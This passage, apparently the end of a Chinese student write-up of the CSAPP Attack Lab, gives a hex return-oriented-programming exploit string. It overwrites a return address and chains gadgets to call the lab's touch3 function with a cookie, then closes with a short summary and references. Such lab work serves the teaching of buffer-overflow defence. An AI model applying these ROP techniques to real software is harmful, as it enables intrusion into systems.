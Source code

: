 ```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ad 1a 40 00 00 00 00 00			# 改写返回地址为0x401aad
a2 19 40 00 00 00 00 00			# 计算偏移的起始地址，返回地址+0x8
cc 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00			# 确定偏移为0x48
dd 19 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00			# touch3首地址为0x4018fa
35 39 62 39 39 37 66 61			# cookie字符串地址，用这个地址减去计算偏移的起始地址得到偏移量为72, 即0x48
00 00 00 00 00 00 00 00
```

此时的栈组织如下：
![](image11.png)
### 总结

通过这次实验，初步了解栈和缓冲区溢出的原理，以及安全编码的重要性。

### 参考资料

《深入理解计算机系统 原书第3版》

[CSAPP:Attack lab](https://www.jianshu.com/p/db731ca57342)

[读厚CSAPP III Attack Lab](https://wdxtub.com/csapp/thick-csapp-lab-3/2016/04/16/)

[良性代码，恶意利用：浅谈 Return-Oriented 攻击](https://blog.csdn.net/sdulibh/article/details/17913815?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.channel_param&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.channel_param)

